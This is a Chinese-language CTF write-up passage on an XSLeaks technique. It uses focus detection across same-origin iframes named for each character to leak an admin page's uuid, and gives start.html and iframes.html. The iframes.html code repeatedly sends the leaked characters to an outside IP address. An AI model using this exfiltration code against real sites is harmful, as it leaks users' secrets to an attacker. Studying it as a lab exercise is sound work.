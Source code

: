## XsLeaks

通过 SOME attack 可以获取到 admin home 上的 uuid 内容，但还需要考虑的是如何外带。

第一种方法是 xsleaks。

首先打开 admin home 页面，然后打开 uuid 字符数 (17) 个同源 iframe 的 iframes 页面，每个 iframe 的 name 对应着一个字符。

在 attack 页面逐位获取 uuid 字符，然后由于同源的可操作性，调用 callback 操作 iframes 页面上的 iframe，相应字符的 iframe 打上 `focus` 标记，其中有一个 check 一直循环检测页面的 focus 情况，一旦有 active 的 iframe 便将该 name 存进 result，最后在这个页面发出跨域请求。

感觉有点麻烦，实际确实麻烦。。。因为除了 xsleaks 的时间需要合理控制，题目的 bot 只有 15 s 的时间限制，这么短的时间对于一次 xsleaks 来说显然不够，只能分段获取，然后拼成整个 uuid。

`start.html` :
```html
<script>
    iframes = open(`/iframes.html`);
    location.replace("http://localhost:12345/");
</script>
```

`iframes.html` :
```html
<body>
    <a id=focusme href=#>sth</a>
    <script>
        const sleep = d => new Promise(r => setTimeout(r, d));
        alphabet = "0123456789abcdef-"

        //create iframes
        for (var i = 0; i < alphabet.length; i++) {
            iframe = document.createElement("iframe");
            iframe.name = alphabet[i];
            iframe.src = "http://localhost:12345/";
            document.body.appendChild(iframe);
        }

        //array for found characters
        hovered = []

        const main = async () => {
            // every 0.075 secs check for iframes' onfucus event
            setInterval(() => {
                p = document.activeElement.name
                if (p) {
                    // if there's focus on an iframe -- add its character to hovered and change the focus
                    hovered.push(p);
                    document.getElementById("focusme").focus();
                }
            }, 75)

            await sleep(2000);
            one = open(`/one.html`);
            await sleep(2000 + 150);

            // every 500 secs send found characters to our server endpoint /ret/:characters
            setInterval(() => {
                res = hovered.join("");
                console.log(res);
                fetch("http://8.142.104.78:9002/ret/" + res)
            }, 500);
        }

        main();
```